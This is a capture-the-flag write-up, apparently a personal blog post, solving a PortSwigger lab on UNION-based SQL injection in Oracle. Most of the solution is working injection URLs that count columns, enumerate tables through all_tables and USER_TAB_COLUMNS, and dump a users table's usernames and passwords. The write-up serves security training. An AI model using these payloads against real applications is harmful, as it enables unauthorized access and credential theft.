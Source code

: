 ```yaml
---
title: PortSwigger - SQLi 10 - Listing contents on Oracle DB
date: 2023-05-17
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user. 

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL FROM DUAL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL FROM DUAL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL FROM DUAL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL FROM DUAL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc' FROM DUAL--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM all_tables--
````

75 table names are displayed. A quick sort make `USERS_OPLMGY` stands out. Time to find the column names inside.

> I didn't find it first try! I had to look on internet and I found that I have to query the table `USER_TAB_COLUMNS`.

````text
<website>/filter?category=Gifts'UNION SELECT column_name,NULL FROM USER_TAB_COLUMNS WHERE table_name='USERS_OPLMGY'--
````

We obtain `USERNAME_JIHLXR` and `PASSWORD_DNJXFC`.

````text
<website>/filter?category=Gifts'UNION SELECT USERNAME_JIHLXR,PASSWORD_DNJXFC FROM USERS_OPLMGY--
````

That's how I solved this challenge!
